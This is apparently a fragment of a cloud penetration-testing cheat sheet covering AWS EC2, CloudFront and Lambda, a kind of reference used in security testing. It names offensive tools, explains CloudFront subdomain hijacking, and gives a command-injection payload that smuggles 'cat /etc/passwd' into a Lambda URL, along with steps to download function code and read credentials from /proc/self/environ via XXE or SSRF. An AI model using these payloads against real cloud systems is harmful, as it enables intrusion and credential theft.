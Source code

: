 ### Tools

```
# EC2 Shadow Copy attack
# https://github.com/Static-Flow/CloudCopy

# EC2 secrets recovery
# https://github.com/akhil-reni/ud-peep
```

## Cloudfront

### Info

```
Cloudfront is a CDN and it checks the HOST header in CNAMES, so:
- The domain "test.disloops.com" is a CNAME record that points to "disloops.com".
- The "disloops.com" domain is set up to use a CloudFront distribution.
- Because "test.disloops.com" was not added to the "Alternate Domain Names (CNAMEs)" field for the distribution, requests to "test.disloops.com" will fail.
- Another user can create a CloudFront distribution and add "test.disloops.com" to the "Alternate Domain Names (CNAMEs)" field to hijack the domain.
```

### Tools

```
# https://github.com/MindPointGroup/cloudfrunt
git clone --recursive https://github.com/MindPointGroup/cloudfrunt
pip install -r requirements.txt
python cloudfrunt.py -o cloudfrunt.com.s3-website-us-east-1.amazonaws.com -i S3-cloudfrunt -l list.txt
```

## **AWS Lambda**

### **Info**

```
# Welcome to serverless!!!!
# AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

# OS command Injection in Lambda
curl "https://API-endpoint/api/stringhere"

# For a md5 converter endpoint "https://API-endpoint/api/hello;id;w;cat%20%2fetc%2fpasswd"
aws lambda list-functions
aws lambda get-function --function-name <FUNCTION-NAME>
aws lambda get-policy
aws apigateway get-stages

# Download function code
aws lambda list-functions
aws lambda get-function --function-name name_we_retrieved_from_above --query 'Code.Location'
wget -O myfunction.zip URL_from_above_step

# Steal creds via XXE or SSRF reading:
/proc/self/environ
# If blocked try to read other vars:
/proc/[1..20]/environ
```
